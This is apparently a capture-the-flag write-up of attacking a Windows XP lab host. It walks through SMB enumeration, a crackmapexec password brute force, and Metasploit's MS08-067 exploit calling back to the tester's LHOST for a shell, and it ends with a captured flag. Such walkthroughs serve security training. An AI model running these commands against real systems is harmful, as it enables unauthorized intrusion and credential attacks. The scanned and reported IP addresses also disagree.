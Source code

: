 The researcher started out with a scan of the host (10.10.10.3) using rustscan^1^
Command: rustscan -a 10.10.10.3

|Status|IP|Port|
| -----|--|----------- |
| Open | 10.10.10.4 | 135 |
| Open | 10.10.10.4 | 139 |
| Open | 10.10.10.4 | 445 |

The researcher then started with testing from the lowest port. 

PORT 135:
Checked for guest access 
Command: rpcclient -U '%' -N 10.10.10.4
I was able to input commands, but all were met with a access denied 

PORT 139/445:
Started with my normal commands to check for access.
Command: smbmap -u "" -p "" -P 445 -H 10.10.10.4 && smbmap -u "guest" -p "" -P 445 -H 10.10.10.4
Both commands failed to map. 

I then ran enum4linux. 
Command: enum4linux -a -u "" -p "" 10.10.10.4 && enum4linux -a -u "guest" -p "" 10.10.10.4
Again both commands failed to produce any real results, but while checking the password policy I did get an error `Protocol failed: SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)` 
for this I did try to brute for a user and password using list from seclist.^2^
To brute force this I used crackmapexec
Command: crackmapexec smb 10.10.10.4 -u usernames.txt -p rockyou.txt
After a few minutes of this I stopped because I was way over thinking this box. 

Going back to my rustscan I then looked at the services running and the versions numbers for the service.  I found that SMB was running ver.2 SMBv2 and the operating system was Windows xp. 
After some googling for `windows xp remote code execution` The first attack I found was MS08-067.
Since this box is one of the oldest on the platform all searches for manual exploit brought me to other HTB write ups. Since this was the case I opted for the metasploit way.

Command: msfconsole
Command: use windows/smb/ms08_067_netapi
Command: set RHOST 10.10.10.4
Command: set LHOST 10.10.16.10
Command: Run

Got a shell. 
Since this is an admin user I was able to get both the user and root flags.
Flag e69af0e4f443de7e36876fda4ec7644f
Flag 

REF
1. https://github.com/RustScan/RustScan
2. https://github.com/danielmiessler/SecLists
